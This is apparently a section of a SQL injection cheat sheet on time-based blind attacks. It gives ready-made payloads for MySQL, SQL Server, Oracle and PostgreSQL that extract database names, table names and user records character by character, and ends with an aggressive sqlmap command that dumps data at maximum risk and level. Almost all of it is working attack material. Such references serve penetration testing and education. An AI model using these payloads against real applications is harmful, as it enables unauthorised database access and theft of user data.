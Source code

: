 ### Time-based Blind

#### Manual Time-based Payloads
```sql
-- MySQL time delays
admin'; SELECT SLEEP(5)-- -
admin' and (select sleep(5))-- -

-- Conditional time delays
admin' and if(1=1,sleep(5),0)-- -
admin' and if(length(database())=8,sleep(5),0)-- -

-- SQL Server time delays
admin'; WAITFOR DELAY '0:0:5'-- -
admin' and 1=1; WAITFOR DELAY '0:0:5'-- -

-- Oracle time delays
admin' and 1=1 and DBMS_PIPE.RECEIVE_MESSAGE(CHR(99)||CHR(99)||CHR(99),5) is null-- -

-- PostgreSQL time delays
admin'; SELECT pg_sleep(5)-- -
admin' and (select pg_sleep(5))-- -
```

#### Advanced Time-based Data Extraction
```sql
-- Length-based extraction (MySQL)
admin' and if(length(database())=8,sleep(3),0)-- -
admin' and if(length((select table_name from information_schema.tables where table_schema=database() limit 1))=5,sleep(3),0)-- -

-- Character-based extraction (MySQL) 
admin' and if(ascii(substring(database(),1,1))=116,sleep(3),0)-- -    # 't' = 116
admin' and if(ascii(substring(database(),2,1))=101,sleep(3),0)-- -    # 'e' = 101

-- Binary search optimization
admin' and if(ascii(substring(database(),1,1))>100,sleep(3),0)-- -    # > 100 (faster than =)
admin' and if(ascii(substring(database(),1,1))<120,sleep(3),0)-- -    # < 120 (narrow down)

-- Conditional data extraction
admin' and if((select count(*) from users)=3,sleep(5),0)-- -
admin' and if((select username from users limit 1)='admin',sleep(5),0)-- -
```

#### SQLMap Advanced Time-based Attacks

**High-Performance Time-based (Maximum Aggressiveness):**
```bash
# Maximum risk/level for time-based optimization
sqlmap -u "URL" --batch --dump \
  --risk 3 --level 5 \
  --technique=T \
  --timeout=30 \
  --retries=2

# Why risk=3 level=5 for time-based?
# - Tests MORE time-based payloads
# - Uses AGGRESSIVE payload variations  
# - Attempts DEEP parameter testing
# - Higher chance of bypassing filters
```
